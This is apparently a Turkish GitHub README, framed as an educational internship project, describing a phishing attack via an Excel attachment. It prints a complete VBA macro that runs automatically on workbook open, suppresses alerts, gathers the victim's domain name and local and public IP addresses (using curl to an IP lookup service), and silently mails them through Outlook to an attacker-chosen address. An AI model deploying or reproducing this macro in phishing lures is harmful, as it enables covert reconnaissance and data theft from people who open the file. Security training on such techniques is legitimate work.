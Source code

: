 # PhisingMail
#Eğitim amaçlı hazırladığım ve eğitim amaçlı sunduğum phising mail taktiği
# Bu eğitim amaçlı gerçekleştirilen ve staj ödevim olan bir çalışmadır. Exelin güvenlik önlemleri sayesinde kolaylıkla engellenebilmekte ve kullanıcının verdiği özel izinler haricinde çalıştırılamamaktadır. Eğitim amaçlı yapılan bu projenin kötü amaçlar için kullanılmasında sorumluluk tamamen kullanıcıya aittir.

Phishing (oltalama) e-postalarının temel amacı, alıcıyı kandırarak kişisel, finansal veya gizli bilgilerini ele geçirmektir. Bu tür e-postalar genellikle güvenilir bir kurumdan (örneğin bir banka, resmi bir kuruluş veya tanınmış bir hizmet sağlayıcı) geliyormuş gibi görünür. Phishing saldırılarının temel amaçları şunlardır:

1. Kişisel Bilgi Çalmak
Kimlik bilgileri (ad, soyad, adres, doğum tarihi)
Kullanıcı adları ve şifreler
Sosyal güvenlik numaraları veya kimlik numaraları
2. Finansal Bilgilere Erişim Sağlamak
Banka hesap bilgileri
Kredi kartı numaraları
Online ödeme hizmetleri (örneğin, PayPal) giriş bilgileri
3. Kötü Amaçlı Yazılım Bulaştırmak
E-postadaki ekler veya bağlantılar aracılığıyla zararlı yazılımlar (ör. ransomware, keylogger) yüklenir.

Bu çalışmamda eğitim amaçlı exel üzerindeki macro sayesinde kullanıcının ip adresini alıp, bilgisayardaki outlook uygulamasını kullanarak belirtilen mail adresine gönderilen bir saldırı senaryosu gerçekleştirdim.

Öncelikle dikkat çekici ve insanların exel dosyasını açmasını sağlayacağım bir mail oluşturdum.
![image](https://github.com/user-attachments/assets/b1bee734-7b02-4d41-a707-c06872b9ca3e)

Oluşturduğum exel vba macrosunu exelime yükledim.

Sub SendMachineInfoViaEmail()
Dim ipAddress As String
Dim domainName As String
Dim publicIpAddress As String
Dim emailBody As String
Dim olApp As Object
Dim olMail As Object
Dim wshell As Object
Dim wmi As Object
Dim colItems As Object
Dim objItem As Object
Dim shellOutput As String
' IP adresini ve domain bilgilerini alma
Set wshell = CreateObject("WScript.Shell")
domainName = wshell.ExpandEnvironmentStrings("%USERDOMAIN%")
Set wmi = GetObject("winmgmts:\\.\root\cimv2")
Set colItems = wmi.ExecQuery("Select * from Win32_NetworkAdapterConfiguration Where IPEnabled =
True")
For Each objItem In colItems
If Not IsNull(objItem.ipAddress) Then
ipAddress = objItem.ipAddress(0)
Exit For
End If
Next
' Komut satırı ile genel IP adresini alma
shellOutput = CreateObject("WScript.Shell").Exec("cmd /c curl https://api.ipify.org").StdOut.ReadAll
'publicIpAddress = Trim(shellOutput)
' E-posta içeriği oluşturma
emailBody = "Domain Name: " & domainName & vbCrLf & _
"Local IP Address: " & ipAddress & vbCrLf & _
"Public IP Address: " & shellOutput
' Outlook uygulamasını açma ve yeni bir e-posta oluşturma
On Error Resume Next
Set olApp = GetObject(, "Outlook.Application")
If Err.Number <> 0 Then
Set olApp = CreateObject("Outlook.Application")
End If
On Error GoTo 0
Set olMail = olApp.CreateItem(0) ' 0 = olMailItem
' E-posta ayarları
With olMail
.To = " " ' Gönderilecek e-posta adresini buraya ekleyin
.Subject = "Machine Information"
.Body = emailBody
.Send
End With
' Temizlik
Set olMail = Nothing
Set olApp = Nothing
Set wshell = Nothing
Set wmi = Nothing
Set colItems = Nothing
End Sub
Private Sub Workbook_Open()
Application.DisplayAlerts = False
Application.ScreenUpdating = False
Call SendMachineInfoViaEmail
Application.DisplayAlerts = True
Application.ScreenUpdating = True
End Sub


Ve dosyamı kaydedip mailime ek olarak yerleştirdim.

# Bu eğitim amaçlı gerçekleştirilen ve staj ödevim olan bir çalışmadır. Exelin güvenlik önlemleri sayesinde kolaylıkla engellenebilmekte ve kullanıcının verdiği özel izinler haricinde çalıştırılamamaktadır. Eğitim amaçlı yapılan bu projenin kötü amaçlar için kullanılmasında sorumluluk tamamen kullanıcıya aittir.



